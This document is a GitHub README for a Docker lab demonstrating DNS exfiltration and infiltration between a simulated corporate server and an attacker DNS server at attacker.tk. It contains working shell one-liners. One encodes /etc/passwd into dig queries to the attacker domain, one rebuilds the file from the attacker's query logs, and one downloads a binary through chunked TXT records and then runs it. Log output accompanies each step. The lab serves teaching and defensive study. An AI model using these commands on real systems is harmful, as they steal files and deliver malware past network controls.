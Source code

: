 # DNS infiltration and exfiltration demo
This repository contains codes and examples used for this [article](https://floatingpoint.sorint.it/blog/post/introduction-to-dns-exfiltration-and-infiltration).
## Screeshots
![screenshot](/assets/screenshot.jpg)
## Requirements
- docker
- docker-compose-plugin (or old the docker-compose)
## Usage
Create three containers and two networks:
```
$ docker compose up -d
```
Open three different terminals and connect to each container:
```
docker exec -ti acme-server sh
docker exec -ti acme-dns sh
docker exec -ti attacker-dns sh
```
or, if you have `tmux` installed, just run this script to get a layout similar to the screenshot above:
```
tmux-setup.sh
```
## Examples
## Internal queries
Use dig, or equivalent command, to query some internal records:
```
💉 app@server.acme.corp ~ $ dig +short www.acme.corp
172.21.0.151
💉 app@server.acme.corp ~ $ dig +short ap.acme.corp
172.21.0.152
💉 app@server.acme.corp ~ $ dig +short db.acme.corp
172.21.0.153
```
All the queries will be answered by the internal DNS:
```
🌍 root@dns.acme.corp ~ # tail -f /var/log/dnsmasq.log
Dec  6 07:56:22 dnsmasq[1]: query[A] db.acme.corp from 172.21.0.3
Dec  6 07:56:22 dnsmasq[1]: config db.acme.corp is 172.21.0.153
Dec  6 07:56:26 dnsmasq[1]: query[A] www.acme.corp from 172.21.0.3
Dec  6 07:56:26 dnsmasq[1]: config www.acme.corp is 172.21.0.151
Dec  6 07:56:32 dnsmasq[1]: query[A] ap.acme.corp from 172.21.0.3
Dec  6 07:56:32 dnsmasq[1]: config ap.acme.corp is 172.21.0.152
Dec  6 07:56:38 dnsmasq[1]: query[A] db.acme.corp from 172.21.0.3
Dec  6 07:56:38 dnsmasq[1]: config db.acme.corp is 172.21.0.153
```
## External queries
Now ask for some external domain:
```
💉 app@server.acme.corp ~ $ dig +short www.google.com
216.58.209.36
💉 app@server.acme.corp ~ $ dig +short www.owasp.org
104.22.26.77
172.67.10.39
104.22.27.77
```
The internal DNS not knowing the answers, will forward the query to an external DNS (in this case 8.8.8.8):
```
🌍 root@dns.acme.corp ~ # tail -f /var/log/dnsmasq.log
Dec  6 08:03:46 dnsmasq[1]: query[A] www.google.com from 172.21.0.3
Dec  6 08:03:46 dnsmasq[1]: forwarded www.google.com to 8.8.8.8
Dec  6 08:03:46 dnsmasq[1]: reply www.google.com is 216.58.209.36
Dec  6 08:04:04 dnsmasq[1]: query[A] www.owasp.org from 172.21.0.3
Dec  6 08:04:04 dnsmasq[1]: forwarded www.owasp.org to 8.8.8.8
Dec  6 08:04:04 dnsmasq[1]: reply www.owasp.org is 104.22.26.77
Dec  6 08:04:04 dnsmasq[1]: reply www.owasp.org is 172.67.10.39
Dec  6 08:04:04 dnsmasq[1]: reply www.owasp.org is 104.22.27.77
```
## String exfiltration query
Query of a domain controlled by the attacker:
```
💉 app@server.acme.corp ~ $ dig +short whateveryouwant.attacker.tk               │
172.21.1.155
```
The internal DNS will forward to query to an external DNS (simulation for root -> TLD > authoritative DNS of the fake domain):
```
🌍 root@dns.acme.corp ~ # tail -f /var/log/dnsmasq.log
Dec  6 08:07:06 dnsmasq[1]: query[A] whateveryouwant.attacker.tk from 172.21.0.3
Dec  6 08:07:06 dnsmasq[1]: forwarded whateveryouwant.attacker.tk to 172.21.1.3
Dec  6 08:07:06 dnsmasq[1]: reply whateveryouwant.attacker.tk is 172.21.1.155
```
Logs from attacker DNS:
```
💀 root@dns.attacker.tk ~ # tail -f /var/log/dnsmasq.log
Dec  6 08:07:06 dnsmasq[1]: query[A] whateveryouwant.attacker.tk from 172.21.1.2
Dec  6 08:07:06 dnsmasq[1]: config whateveryouwant.attacker.tk is 172.21.1.155
```
## File exfiltration queries
Send a file through DNS queries:
```
💉 app@server.acme.corp ~ $ sha256sum /etc/passwd
a9eee6a30d5ed5f3fa07407373427c7acd73502ee3393c916519d1ee45a91fb4  /etc/passwd
💉 app@server.acme.corp ~ $ gzip -c /etc/passwd | base64 -w0 | fold -w63 | awk 'BEGIN {n = 100} {print "dig +short c"n"."$1".attacker.tk"; n++}' | sh
```
Logs from internal DNS:
```
🌍 root@dns.acme.corp ~ # tail -f /var/log/dnsmasq.log
<...>
Dec  6 09:56:56 dnsmasq[1]: query[A] c108.D51PXMrl3MVoc38VTxCp8p908S5iu2nT4u/1759EC2X8rWyKUg5nU5/wl/yun+o.attacker.tk
Dec  6 09:56:56 dnsmasq[1]: forwarded c108.D51PXMrl3MVoc38VTxCp8p908S5iu2nT4u/1759EC2X8rWyKUg5nU5/wl/yun+o.attacker.tk to 172.21.1.3
Dec  6 09:56:56 dnsmasq[1]: reply c108.D51PXMrl3MVoc38VTxCp8p908S5iu2nT4u/1759EC2X8rWyKUg5nU5/wl/yun+o.attacker.tk is 172.21.1.155
<...>
```
Logs from attacker DNS:
```
💀 root@dns.attacker.tk ~ # tail -f /var/log/dnsmasq.log
Dec  6 09:56:56 dnsmasq[1]: query[A] c108.D51PXMrl3MVoc38VTxCp8p908S5iu2nT4u/1759EC2X8rWyKUg5nU5/wl/yun+o.attacker.tk from 172.21.1.2
Dec  6 09:56:56 dnsmasq[1]: config c108.D51PXMrl3MVoc38VTxCp8p908S5iu2nT4u/1759EC2X8rWyKUg5nU5/wl/yun+o.attacker.tk is 172.21.1.155
```
Reassemble the file from the query log file:
```
💀 root@dns.attacker.tk ~ # grep -E "query\[A\] c\d{3}\." /var/log/dnsmasq.log | awk '{print $6}' | sort -u | cut -d "." -f2 | base64 -d | gunzip -d > mynewfile
💀 root@dns.attacker.tk ~ # sha256sum mynewfile
a9eee6a30d5ed5f3fa07407373427c7acd73502ee3393c916519d1ee45a91fb4  mynewfile
```
## File infiltration queries
Create TXT records from your "malware" binary (records already present in /etc/dnsmasq.conf):
```
💀 root@dns.attacker.tk ~ # file malware
malware: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-x86_64.so.1, stripped
💀 root@dns.attacker.tk ~ # gzip -c malware | base64 -w0 | fold -w63 | awk 'BEGIN {n = 100} {print "txt-record=c"n".attacker.tk,"$1; n++}'
txt-record=c100.attacker.tk,H4sIAAAAAAAAA+ydC3Bc1XnH7+phL7a8EiA7wpj4mpFhZaGX8UN+yN6VZbgiplL
txt-record=c101.attacker.tk,xA7WWWQlpbSnoNdIKC9gYTdYmWtabqEkno2ZoR6UvhT7QTFoqOiFIlrGEh5A1DI
<...>
txt-record=c222.attacker.tk,VXX8v1aw6N88085ifwN99/jHXxI6xXP7Rv3zF1/l7gFS/+Ss8E6GYAAA==
```
Get the binary quering 222 TXT records (one for each chunk):
```
💉 app@server.acme.corp ~ $ for n in $(seq 100 222);do echo "dig txt +short c$n.attacker.tk" ;done | sh | tr -d '"' | base64 -d | gzip -d > malware
```
Logs from internal DNS:
```
🌍 root@dns.acme.corp ~ # tail -f /var/log/dnsmasq.log
<...>
Dec  6 08:29:50 dnsmasq[1]: query[TXT] c218.attacker.tk from 172.21.0.3
Dec  6 08:29:50 dnsmasq[1]: forwarded c218.attacker.tk to 172.21.1.3
Dec  6 08:29:50 dnsmasq[1]: reply c218.attacker.tk is teIYPZu/+nsTPEQSCIoWgXDAlmjzAaBSgc61mBQpGA4ARo
HA6F4wYYLIKbcB1Ct
<...>
```
Logs from attacker DNS:
```
💀 root@dns.attacker.tk ~ # tail -f /var/log/dnsmasq.log
<...>
Dec  6 08:29:50 dnsmasq[1]: query[TXT] c218.attacker.tk from 172.21.1.2
Dec  6 08:29:50 dnsmasq[1]: config c218.attacker.tk is <TXT>
<...>
```
Check the binary and run it:
```
💉 app@server.acme.corp ~ $ ls -l malware
-rw-r--r-- 1 app app 26344 Dec  6 08:29 malware
💉 app@server.acme.corp ~ $ file malware
malware: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-x86_64.so.1, stripped
💉 app@server.acme.corp ~ $ ./malware
```